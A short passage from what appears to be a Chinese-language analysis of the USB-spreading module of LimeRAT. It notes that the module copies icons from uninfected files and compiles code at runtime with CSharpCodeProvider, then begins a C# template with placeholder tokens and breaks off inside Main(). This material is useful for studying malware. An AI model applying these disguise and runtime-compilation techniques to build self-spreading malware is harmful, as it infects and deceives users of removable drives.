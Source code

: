 
![image-20240209140515803](readme/image-20240209140515803.png)

这里把没有感染的文件的图标提取出去放在新建的图标目录中



![image-20240209140652658](readme/image-20240209140652658.png)

然后在动态编译代码，原来还有CSharpCodeProvider类，能动态编译



```
using System;
using System.Diagnostics;
using System.Reflection;
using System.Runtime.InteropServices;

[assembly: AssemblyTrademark("%Lime%")]
[assembly: Guid("%Guid%")]

static class %LimeUSBModule%
{
    public static void Main()
    {
        try
        {
```